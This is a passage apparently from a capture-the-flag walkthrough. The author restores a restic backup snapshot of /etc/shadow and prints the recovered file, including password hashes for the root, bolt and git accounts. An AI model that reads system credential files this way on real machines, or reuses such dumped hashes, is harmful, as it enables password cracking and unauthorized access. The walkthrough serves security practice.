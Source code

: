 We get:

```
repository 9c85fcf4 opened successfully, password is correct
ID        Time                 Host        Tags        Paths
---------------------------------------------------------------------
e88d1a35  2020-03-04 13:49:33  bolt                    /etc/shadow
---------------------------------------------------------------------
```

We can now restore this ID:

```
restic -r /tmp/restic restore e88d1a35 --target /tmp/restore 
```

This gives us a nice list of hashes!

```
root:$6$tBgQhcnm$9LkMBpvqFk8yk2WbvQYSiZdvA6k0w3b3lfcdJzTE5BrGm5b/IyEfFD5HskZ3Z35yhrj9hbyrhbFELzzQa5ldP0:18044:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
sys:*:17737:0:99999:7:::
sync:*:17737:0:99999:7:::
games:*:17737:0:99999:7:::
man:*:17737:0:99999:7:::
lp:*:17737:0:99999:7:::
mail:*:17737:0:99999:7:::
news:*:17737:0:99999:7:::
uucp:*:17737:0:99999:7:::
proxy:*:17737:0:99999:7:::
www-data:*:17737:0:99999:7:::
backup:*:17737:0:99999:7:::
list:*:17737:0:99999:7:::
irc:*:17737:0:99999:7:::
gnats:*:17737:0:99999:7:::
nobody:*:17737:0:99999:7:::
systemd-network:*:17737:0:99999:7:::
systemd-resolve:*:17737:0:99999:7:::
syslog:*:17737:0:99999:7:::
messagebus:*:17737:0:99999:7:::
_apt:*:17737:0:99999:7:::
lxd:*:17893:0:99999:7:::
uuidd:*:17893:0:99999:7:::
dnsmasq:*:17893:0:99999:7:::
landscape:*:17893:0:99999:7:::
pollinate:*:17893:0:99999:7:::
statd:*:17893:0:99999:7:::
sshd:*:17893:0:99999:7:::
bolt:$6$MbEsG45E$GwigsJKeDuECWa.fnc5yfN0ahJOYYU9RuQ044xQlmt7blReerywj4EQoVyrElU1XgUzqunQ5ZAPoL1/V7KRXG1:18044:0:99999:7:::
vboxadd:!:18044::::::
git:$6$u.ix2wsI$11gn1OZX8UIFodXK.egLdYBI7e7tvsOjJa2Nc98SbZOcqISdUwWFzeJAliORbhL8dVOtHh2BN3sTix.jGpsI21:18177:0:99999:7:::
```
